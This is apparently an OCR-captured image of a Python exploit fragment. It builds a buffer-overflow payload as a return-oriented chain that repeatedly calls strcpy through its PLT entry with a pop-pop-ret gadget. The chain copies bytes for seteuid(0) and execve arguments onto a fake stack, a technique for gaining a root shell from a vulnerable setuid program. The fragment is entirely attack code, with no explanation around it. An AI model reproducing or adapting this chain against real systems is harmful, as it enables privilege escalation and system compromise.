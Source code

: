 ``` python
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
#Below stack frames are for strcpy (to copy execve_arg1  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct1)
#Below stack frames are for strcpy (to copy execve_arg2  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct1)
#Below stack frames are for strcpy (to copy execve_arg3  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
cust_esp += 1
```